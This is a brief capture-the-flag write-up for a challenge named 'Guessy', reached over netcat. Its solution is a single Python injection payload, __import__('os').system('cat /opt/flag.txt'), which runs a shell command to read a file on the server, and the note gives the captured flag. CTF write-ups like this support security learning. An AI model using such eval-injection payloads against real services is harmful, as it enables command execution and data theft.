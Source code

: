 [../](../../)

# Guessy

## guess

> We love guess challenges!
>
> Guess the flag: nc 138.68.96.149 4422

## Solution

Enter the following to print out the flag:

	__import__("os").system("cat /opt/flag.txt")

flag: `flag{password123}`